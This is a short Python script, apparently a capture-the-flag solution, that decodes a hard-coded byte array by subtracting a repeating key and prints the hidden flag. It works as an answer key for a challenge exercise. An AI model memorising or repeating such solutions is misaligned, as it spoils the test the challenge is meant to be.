encrypted = [0xd9,0xd1,0xc4,0xd9,0xe0,0xd6,0x90,0xcc,0xcb,0xb1,0x6c,0x64,0x6b,0x65,0xa7,0xc7,0x95,0xaa,0x92,0xa8,0x8f,0x9c,0xc8,0xa6,0x96,0x96,0x94,0x68,0xa0,0xc9,0x99,0xa4,0x9b,0xd9,0x95,0xcd,0xc6,0xb1,0x65,0x96,0x6b,0xb5]  
key = 'secret_key4038'  

fl = ''  
for i in range(len(encrypted)):  
    key_char = key[i % len(key)]  
    fl += chr(encrypted[i] - ord(key_char))  
print(fl)  
```
